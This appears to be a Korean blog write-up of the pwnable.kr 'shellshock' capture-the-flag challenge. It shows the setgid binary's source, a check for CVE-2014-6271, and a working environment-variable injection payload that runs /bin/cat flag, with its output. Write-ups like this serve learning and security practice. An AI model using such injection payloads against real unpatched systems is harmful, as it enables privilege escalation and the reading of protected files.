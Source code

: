 ```yaml
---
title: Pwnable KR - shellshock
slug: pwnable-kr-shellshock
date: 2016-04-24 17:39:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR shellshock](pwnable-kr-shellshock.png)

1점 문제.

```console
$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

flag를 보려면 shellshock2 gid가 필요하고
shellshock를 실행하면 shellshock2 gid를 얻을 수 있다.

shellshock.c 내용은 다음와 같다.

```c
#include <stdio.h>
int main(){
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    system("/home/shellshock/bash -c 'echo shock_me'");
    return 0;
}
```

## 풀이

shellshock 취약점은 아래 명령어로 체크할 수 있다.

```sh
env x='() { :;}; echo pwnable!' bash -c 'echo safe~'
```

```console
$ env x='() { :;}; echo pwnable!' bash -c 'echo safe~'
safe~
$ env x='() { :;}; echo pwnable!' ./bash -c 'echo safe~'
pwnable!
safe~
$
```

같은 디렉토리에 있는 bash는 취약한 것을 확인했다.
shellshock 프로그램에도 적용해보자.

```sh
env x='() { :;}; /bin/cat flag' ./shellshock
```

```console
$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
$
```

이 취약점을 통해서 내가 원하는 명령을 shellshock2의 권한으로 실행할 수 있었다.

bash는 환경변수로 함수를 정의할 수 있는데, 함수 정의가 끝난 다음에
임의의 명령을 추가로 적으면 그 명령이 실행되는 문제인 것이다.
자세한 건 다음 링크에서 공부해보도록 하자.

<https://access.redhat.com/blogs/766093/posts/1976383>

